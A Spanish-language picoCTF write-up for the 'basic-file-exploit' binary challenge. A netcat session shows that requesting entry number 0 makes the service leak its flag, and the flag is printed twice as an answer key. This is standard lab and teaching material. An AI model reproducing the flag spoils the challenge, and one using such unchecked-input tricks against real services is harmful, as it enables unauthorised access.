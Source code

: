 ## Descripción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 50959` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).

## Hints
+ Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución

``` 

┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/Retos-picoCTF/Binary_Explotation/01-basic-file-exploit]
└──╼ $nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Ramiro
Ramiro
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Ramiro
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/Retos-picoCTF/Binary_Explotation/01-basic-file-exploit]
└──╼ $

```


## Flag
==picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}== 



## Notas adicionales




## Referencias
